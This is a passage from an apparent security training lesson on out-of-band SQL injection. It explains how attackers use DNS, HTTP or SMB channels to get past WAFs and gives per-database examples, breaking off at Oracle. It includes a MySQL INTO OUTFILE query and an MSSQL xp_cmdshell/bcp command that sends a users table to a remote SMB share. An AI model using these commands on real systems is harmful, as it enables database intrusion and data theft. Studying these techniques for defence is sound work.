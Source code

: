 Why Use OOB

In scenarios where direct responses are sanitised or limited by security measures, OOB channels enable attackers to exfiltrate data without immediate feedback from the server. For instance, security mechanisms like **stored procedures**, **output encoding**, and a**pplication-level constraints** can **prevent direct responses**, making traditional SQL injection attacks ineffective. Out-of-band techniques, such as using DNS or HTTP requests, allow data to be sent to an external server controlled by the attacker, circumventing these restrictions.

Additionally, **Intrusion Detection Systems (IDS)** and **Web Application Firewalls (WAFs)** often **monitor and log SQL query responses for suspicious activity**, blocking direct responses from potentially malicious queries. By leveraging OOB channels, attackers can avoid detection by using less scrutinized network protocols like DNS or SMB to transfer data. This is particularly useful in network environments with limited direct connectivity between the attacker and the database server, such as when the server is behind a firewall or in a different network segment.

Techniques in Different Databases

Out-of-band SQL injection attacks utilise the methodology of writing to another communication channel through a crafted query. This technique is effective for exfiltrating data or performing malicious actions when direct interaction with the database is restricted. There are multiple commands within a database that may allow exfiltration, but below is a list of the most commonly used in various database systems:

**MySQL and MariaDB**

In MySQL or MariaDB, Out-of-band SQL injection can be achieved using [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) or [load\_file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:

```php
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```

An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.

**Microsoft SQL Server (MSSQL)**

In MSSQL, Out-of-band SQL injection can be performed using features like [xp\_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:

```php
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```

Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.

**Oracle**

In Oracle databases, Out-of-band SQL injection can be executed using the [UTL\_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL\_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL\_HTTP package can be used to send HTTP requests with sensitive data:
